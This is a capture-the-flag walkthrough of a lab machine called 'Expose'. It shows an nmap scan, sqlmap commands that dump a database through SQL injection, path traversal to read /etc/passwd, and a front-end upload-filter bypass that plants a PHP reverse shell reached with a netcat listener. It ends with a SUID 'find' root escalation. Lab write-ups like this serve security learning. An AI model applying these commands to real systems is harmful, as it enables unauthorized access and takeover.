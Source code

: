 # Expose

### Expose
Initial scan shows ports 21,22,53,1337,1883 open:

    # Nmap 7.94SVN scan initiated Mon Oct 21 04:59:00 2024 as: nmap -p22,21,53,1337,1883 -sV -sC -oN scan 10.10.14.250
    Nmap scan report for 10.10.14.250
    Host is up (0.094s latency).
    
    PORT     STATE SERVICE                 VERSION
    21/tcp   open  ftp                     vsftpd 2.0.8 or later
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.14.90.188
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 42:80:cd:c4:cd:d9:90:22:fc:b6:74:9e:87:4b:29:d1 (RSA)
    |   256 3a:24:e7:cb:27:14:ff:41:ec:26:8d:9b:9d:d3:bb:f1 (ECDSA)
    |_  256 3f:f6:95:a6:bc:28:f2:71:83:4a:39:0f:6f:c0:5e:2f (ED25519)
    53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.16.1-Ubuntu
    1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: EXPOSED
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    1883/tcp open  mosquitto version 1.6.9
    | mqtt-subscribe: 
    |   Topics and their most recent payloads: 
    |     $SYS/broker/uptime: 220 seconds
    |     $SYS/broker/bytes/received: 69
    |     $SYS/broker/messages/stored: 31
    |     $SYS/broker/clients/maximum: 1
    |     $SYS/broker/load/connections/5min: 0.39
    |     $SYS/broker/load/messages/received/1min: 2.74
    |     $SYS/broker/clients/connected: 1
    |     $SYS/broker/publish/messages/sent: 11
    |     $SYS/broker/clients/inactive: 0
    |     $SYS/broker/load/messages/sent/1min: 12.79
    |     $SYS/broker/load/bytes/received/15min: 4.57
    |     $SYS/broker/load/messages/sent/5min: 2.75
    |     $SYS/broker/heap/current: 51056
    |     $SYS/broker/clients/active: 1
    |     $SYS/broker/clients/disconnected: 0
    |     $SYS/broker/messages/received: 3
    |     $SYS/broker/messages/sent: 14
    |     $SYS/broker/load/sockets/15min: 0.26
    |     $SYS/broker/load/publish/sent/5min: 2.16
    |     $SYS/broker/heap/maximum: 51456
    |     $SYS/broker/bytes/sent: 406
    |     $SYS/broker/store/messages/count: 31
    |     $SYS/broker/subscriptions/count: 2
    |     $SYS/broker/load/bytes/sent/15min: 26.90
    |     $SYS/broker/version: mosquitto version 1.6.9
    |     $SYS/broker/load/publish/sent/15min: 0.73
    |     $SYS/broker/load/bytes/received/5min: 13.55
    |     $SYS/broker/publish/bytes/sent: 60
    |     $SYS/broker/load/messages/received/15min: 0.20
    |     $SYS/broker/load/sockets/5min: 0.71
    |     $SYS/broker/load/bytes/received/1min: 63.04
    |     $SYS/broker/load/sockets/1min: 2.56
    |     $SYS/broker/load/connections/1min: 1.83
    |     $SYS/broker/clients/total: 1
    |     $SYS/broker/load/messages/sent/15min: 0.93
    |     $SYS/broker/load/bytes/sent/5min: 79.73
    |     $SYS/broker/load/connections/15min: 0.13
    |     $SYS/broker/load/bytes/sent/1min: 370.96
    |     $SYS/broker/retained messages/count: 35
    |     $SYS/broker/load/publish/sent/1min: 10.05
    |     $SYS/broker/load/messages/received/5min: 0.59
    |_    $SYS/broker/store/messages/bytes: 146
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

After some enumeration, I found some directories on the webserver on port 1337:<br/>
![image](https://github.com/user-attachments/assets/d4edbd87-6078-467b-bc4a-39a657d01491)<br />
Some of them are just decoys, the real login page is at `admin_101`. <br />
![image](https://github.com/user-attachments/assets/40bbd386-3370-404e-9df8-a9df56aa1935)<br />
This login page is vulnerable to sqlinjection. I'll use sqlmap to exploit it. Open burpsuite and capture the request, then run the following command: `sqlmap -r request --dbs`, `sqlmap -r request -D expose --tables --dump`. <br />
Inside the `expose` database, I found two tables, users and config.<br />
Here's what I found:

    hacker@root.thm:VeryDifficultPassword!!#@#@!#!@#1231
    /file1010111/index.php — easytohack
    /upload-cv00101011/index.php
The first set of credential seems useless, let's try accessing `/file1010111/index.php`:<br />
![image](https://github.com/user-attachments/assets/ad929770-3222-426a-8e36-ecdf7ffb208c)<br />
Looking at the source code of the page, there's a hint:<br />
![image](https://github.com/user-attachments/assets/c1072135-65d0-434f-932c-1cae76972144)<br />
Before trying enumerating files, I decided to first try if it is vulnerable to path traversal, and it is! <br />
![image](https://github.com/user-attachments/assets/d7614a40-edd4-4a29-a002-342fa33b7a78)<br />
Inside the `/etc/passwd`, there's a user called `zeamkish`. If I now visit `/upload-cv00101011/index.php`, it asks for a password, with a hint suggesting that it's a user of this computer starting with letter z, which is of course `zeamkish`.<br />
This page prompts to a file upload. Looking at the source code, there's a front end filter that filters out everything that is not .png or .jpg.<br />
![image](https://github.com/user-attachments/assets/81db1e27-1f58-4155-be63-7a8b15f66eb8)<br />
But this is just a frontend filter. To bypass it we can use burpsuite and change the file extension to .php before forwarding it. I'm using the php reverse shell from pentestmonkey. <br />
![image](https://github.com/user-attachments/assets/34db6032-edde-4e64-80b6-43914d6e6906)<br />
Change the extension to .php and upload it<br />
![image](https://github.com/user-attachments/assets/2251a947-9e9c-4fd2-bdaa-c5d272f068d6)<br />
![image](https://github.com/user-attachments/assets/d7cff851-68af-4bd7-ac7c-715a9a9f6ace)<br />
So now open a netcat listener, `nc -lnvp 4444` and open `http://10.10.29.77:1337/upload-cv00101011/upload_thm_1001/rev.php`:<br />
![image](https://github.com/user-attachments/assets/b72f18c8-95d5-4b89-9e64-a9ff2ffeb469)<br />
Inside zeamkish's home directory, there are his ssh credentials:<br />
![image](https://github.com/user-attachments/assets/d879a1d8-f327-454b-a0bc-76f180bb617f)<br />
`zeamkish:easytohack@123`.<br />
I then run linpeas to enumerate possible privesc vectors and found this:<br />
![image](https://github.com/user-attachments/assets/72bcffe6-ae94-4359-b3f2-6f474fbb0f00)<br />
GTFObins is very good with this kind of SUID. Just run `find . -exec /bin/sh -p \; -quit` and get root flag! 
